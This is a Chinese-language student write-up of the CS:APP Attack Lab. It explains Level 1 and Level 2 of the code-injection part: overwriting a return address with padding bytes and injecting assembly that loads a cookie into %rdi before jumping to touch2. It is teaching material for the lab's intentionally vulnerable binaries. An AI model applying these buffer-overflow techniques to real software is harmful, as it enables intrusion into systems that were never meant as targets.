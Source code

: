 # 说明

​	该实验主要做的是使用缓冲区溢出来攻击已有代码，包括但不限于：覆盖返回地址，使程序返回时执行我们自己的代码。

​	文件说明：***ctarget***、***rtarget***为我们要攻击的源程序，***hex2raw***是帮助我们将16进制表示转换为字符的程序，***farm.c***也是一个工具程序，***cookie.txt***是用户的cookie值，用于向cmu的服务器发起请求的，***ctarget.txt***是反编译输出的ctaget代码。



# Part I: Code Injection Attacks

​	第一部分，代码注入攻击

## Level 1

​	查看attack的实验指导（本项目中实验指导目录下的attacklab.pdf文档）可以知道，第一个实验要求我们利用栈缓冲区溢出来执行特定的目标代码touch1。

​	我们只需要将栈内存中当前函数的返回地址修改为目标函数的开始地址就可以完成。所以我们需要知道目标函数的开始地址。

​	可以使用objdump工具将ctarget可执行文件反汇编成汇编代码。

> objdump -d ctarget > ctarget.txt

​	执行完成后，查看ctarget.txt文件，可以找到以下代码：

~~~
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
~~~

​	可以看到，touch1函数的开始地址为0x4017c0，现在我们只需要利用源代码当中的漏洞将这个地址覆盖掉程序的返回地址就可以完成第一个目标。

​	我们可以观察题目给出的漏洞代码：

![image-20230226195913939](D:\Project\project_revelant\CSAPP\target1\readme.assets\image-20230226195913939.png)

​	可以看到一上来就将栈指针减少了40字节，这很关键，说明当前程序的返回地址在栈指针+40字节处，所以我们构建的攻击参数需要空出这40字节，以便能够将程序的返回地址覆盖掉。

​	所以我们需要构建的攻击字符串为：

~~~
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40
~~~

​	注意数据需要按照小端法存放，将这个攻击参数放入arg1.txt中，利用hex2raw程序将其转换成对应的字节流，再作为参数传给ctarget。

​	得到最终结果：

![Snipaste_2023-02-16_21-23-41](D:\Project\project_revelant\CSAPP\target1\readme.assets\Snipaste_2023-02-16_21-23-41.png)





## Level2

​	这部分的实验要求是通过注入代码攻击，使得程序能够运行touch2函数。

​	实验指导中给出了touch2函数的c代码：

~~~c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n",val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n",val);
        fail(2);
    }
    exit(0);
}
~~~

​	可以看到，这次要执行的函数还需要携带一个无符号类型的参数，并且还要将这个参数和我们的cookie（在cookie.txt文件中）进行对比，只有相同才算成功。

​	所以我们的攻击要能够将cookie值放入%rdi寄存器中，这是用于存放第一个参数的寄存器。要像Level1那样简单注入一个返回地址可不行了。

​	思路：我们可以将攻击代码注入到栈内存上，然后通过返回地址跳转到注入的代码执行，在注入的代码中将cookie值放入%rdi寄存器，然后跳转到touch2函数执行。

​	查看cookie值为0x59b997fa。

​	touch2的起始地址为0x4017ec：

![image-20230226203332845](D:\Project\project_revelant\CSAPP\target1\readme.assets\image-20230226203332845.png)

​	注入代码为：

~~~
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
~~~

​	但是需要将汇编代码转换为机器指令，可以通过gcc和objdump工具完成此操作，首先将上述汇编代码放入attack2.s文件中，接着执行以下代码：

~~~shell
gcc -c attack2.s
objdump -d attack2.o > attack2.txt
~~~

​	attack2.txt：

~~~
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  
~~~
